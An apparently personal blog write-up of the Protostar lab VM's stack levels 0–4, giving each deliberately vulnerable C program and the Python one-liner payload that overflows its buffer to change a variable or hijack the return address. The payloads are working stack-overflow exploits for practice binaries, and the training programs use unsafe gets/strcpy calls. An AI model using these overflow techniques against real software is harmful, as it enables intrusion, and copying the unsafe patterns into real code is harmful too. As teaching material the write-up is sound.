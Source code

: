 ```yaml
---
title: "Writeup: protostar (stack)"
date: 2020-12-30T21:12:45+08:00
draft: true
---
```


Protostar is a virtual machine which introduces the following in a friendly way: network programming, byte order, handling sockets, stack overflows, format strings, and heap overflows. It is available at [VulnHub](https://www.vulnhub.com/). 

<br>

## Stack 0

Here is some information of the executable /opt/protostar/bin/stack0. 

![](https://github.com/chuang76/image/blob/master/protostar/p0-1.PNG?raw=true)

The source code is provided as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
    	printf("you have changed the 'modified' variable\n");
    } else {
    	printf("Try again?\n");
    }
}
```

So our goal is to modify an integer, just need to cover the value of buffer (64 bytes) and overwrite the value of modified (4 bytes). 

```
$ python -c "print('a' * 68)" | ./stack0
```

![](https://github.com/chuang76/image/blob/master/protostar/p0-3.PNG?raw=true)

<br>

## Stack 1

Some information of the executable /opt/protostar/bin/stack1. 

![](https://github.com/chuang76/image/blob/master/protostar/p1-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
    	errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
    	printf("you have correctly got the variable to the right value\n");
    } else {
    	printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Our goal is to make the integer modified equal to 0x61626364. Note that the byte order is little-endian in the system. So the payload is

![](https://github.com/chuang76/image/blob/master/protostar/p1-2.PNG?raw=true)

or you can use \xAB notion to express the hexadecimal character. 

```
$ ./stack1 `python -c "print('a' * 64 + '\x64\x63\x62\x61')"`
```

![](https://github.com/chuang76/image/blob/master/protostar/p1-3.PNG?raw=true)

<br>

## Stack 2

Here is the information of the executable /opt/protostar/bin/stack2. 

![](https://github.com/chuang76/image/blob/master/protostar/p2-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
    	errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
    	printf("you have correctly modified the variable\n");
    } else {
    	printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Since the value of buffer is copied from the environment variable which we can control, let's exploit the program with the environment variable GREENIE. Again, the value of modified should be overwritten in little-endian format. 

```
$ GREENIE=`python -c "print('a' * 64 + '\x0a\x0d\x0a\x0d')"` ./stack2
```

![](https://github.com/chuang76/image/blob/master/protostar/p2-2.PNG?raw=true)

<br>

## Stack 3

Here is the information of the executable /opt/protostar/bin/stack3. 

![](https://github.com/chuang76/image/blob/master/protostar/p3-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
    	printf("calling function pointer, jumping to 0x%08x\n", fp);
    	fp();
    }
}
```

We can use objdump command to figure out the address of the function win(). 

```
$ objdump -M intel -d stack3
```

![](https://github.com/chuang76/image/blob/master/protostar/p3-2.PNG?raw=true)

Here is the payload. 

```
$ python -c "print('a' * 64 + '\x24\x84\x04\x08')"` | ./stack3
```

![](https://github.com/chuang76/image/blob/master/protostar/p3-3.PNG?raw=true)

<br>

## Stack 4

Here is the information of the executable /opt/protostar/bin/stack4.

![](https://github.com/chuang76/image/blob/master/protostar/p4-1.PNG?raw=true) 

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

Again, use objdump command to find out the address of the target function, i.e., 0x080483f4. 

![](https://github.com/chuang76/image/blob/master/protostar/p4-2.PNG?raw=true)

Next, let's figure out how many bytes should be covered before the return address. Set a break point at calling gets() function.

![](https://github.com/chuang76/image/blob/master/protostar/p4-6.PNG?raw=true)

As you can see, eax is stored as the start address of buffer (0xbffffca0) while current ebp is stored as 0xbffffce8. So we need to cover 0xbffffce8 - 0xbffffca0 + 4 (the size of ebp) = 76 bytes. 

![](https://github.com/chuang76/image/blob/master/protostar/p4-7.PNG?raw=true)

Here is the payload. 

```
$ python -c "print('a' * 76 + '\xf4\x83\x04\x08')"` | ./stack4
```

![](https://github.com/chuang76/image/blob/master/protostar/p4-5.PNG?raw=true)
